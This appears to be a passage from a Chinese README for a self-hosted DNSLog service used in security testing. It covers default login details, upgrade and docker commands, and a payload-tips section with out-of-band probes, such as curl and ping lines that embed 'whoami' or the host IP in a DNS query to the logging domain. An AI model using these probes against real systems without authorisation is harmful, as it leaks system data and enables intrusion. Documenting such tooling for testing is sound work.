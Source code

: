 后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



升级操作

```bash
#备份数据库和配置文件
mv /DNSLog/dnslog/dnslog/settings.py /DNSLog/dnslog/dnslog/settings.py.bak
mv /DNSLog/dnslog/dsqlite3 /DNSLog/dnslog/dsqlite3.bak
#拉取新的网站源码
cd /DNSLog/dnslog/
git pull
#恢复数据库和配置文件
mv /DNSLog/dnslog/dnslog/settings.py.bak /DNSLog/dnslog/dnslog/settings.py
mv /DNSLog/dnslog/dsqlite3.bak /DNSLog/dnslog/dsqlite3

#如果操作过程中docker自动退出而无法启动，可以通过docker cp进行文件的操作
root@dnslog:~# docker cp cranky_cray:/DNSLog/dnslog/dnslog/settings.py.bak settings.py.bak
root@dnslog:~# docker cp settings.py.bak cranky_cray:/DNSLog/dnslog/dnslog/settings.py

root@dnslog:~# docker cp cranky_cray:/DNSLog/dnslog/db.sqlite3.bak db.sqlite3.bak
root@dnslog:~# docker cp db.sqlite3.bak cranky_cray:/DNSLog/dnslog/db.sqlite3
```

### 0x4、payload使用技巧

**兼容windows和linux**

```bash
#方法一、||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com

#方法二、群里大佬发了一个兼容windows和Linux的ping命令!!!6666
ping -nc 3 xxx.test.0v0.com
```



**命令优先执行**

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边


使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```
